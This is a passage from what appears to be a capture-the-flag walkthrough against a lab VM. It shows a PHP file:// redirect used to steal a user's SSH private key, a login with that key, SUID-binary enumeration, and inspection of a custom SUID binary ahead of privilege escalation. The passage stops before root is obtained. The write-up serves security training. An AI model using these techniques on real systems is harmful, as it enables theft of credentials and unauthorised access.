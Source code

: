 kali@kali:~$ cat /var/www/html/test.php  
>\<?php  
>     header('location:file:///home/gemini1/.ssh/id_rsa');  
>\?>  

Now it outputs the key: 

>-----BEGIN RSA PRIVATE KEY-----  
>MIIEpQIBAAKCAQEAv8sYkCmUFupwQ8pXsm0XCAyxcR6m5y9GfRWmQmrvb9qJP3xs  
>... 
>-----END RSA PRIVATE KEY-----  

Now, we can log in the server without the user password:

kali@kali:~$ vim rsa.key  

kali@kali:~$ sudo ssh -l gemini1 192.168.1.60 -i rsa.key   
>Linux geminiinc 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64  
>...  
>Last login: Tue Jan  9 08:04:52 2018 from 192.168.0.112  
>gemini1@geminiinc:~$   
>  
>gemini1@geminiinc:~$ id  
>uid=1000(gemini1) gid=1000(gemini1) groups=1000(gemini1),24(cdrom),25(floppy),29(audio),30(dip),33(www-data),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),118(scanner)  

Now let's elevate to root. We check this really good cheat sheet and try some stuff:  

**https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/**  
  
Finally, after enumerating some stuff, we find the following:  

gemini1@geminiinc:~$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  
>-rwsr-xr-- 1 root dip 365960 Nov 11  2016 /usr/sbin/pppd  
>-rwsr-xr-x 1 root root 23352 May 24  2017 /usr/bin/pkexec  
>-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn  
>-rwsr-xr-x 1 root root 8792 Jan  7 06:10 /usr/bin/listinfo  
>-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd  
>-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh  
>-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp  
>-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd  
>-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo  
>-rwsr-xr-x 1 root root 44304 Mar 22  2017 /bin/mount  
>-rwsr-xr-x 1 root root 31720 Mar 22  2017 /bin/umount  
>-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping  
>-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su  
>-rwsr-xr-x 1 root root 30800 Jun 23  2016 /bin/fusermount  

Let's see what listinfo does:  

gemini1@geminiinc:~$ strings /usr/bin/listinfo  
>...  
>/sbin/ifconfig | grep inet  
>/bin/netstat -tuln | grep 22  
>/bin/netstat -tuln | grep 80  
>date  
>displaying network information...      
>displaying Apache listening port...      
>displaying SSH listening port...      
>displaying current date...    
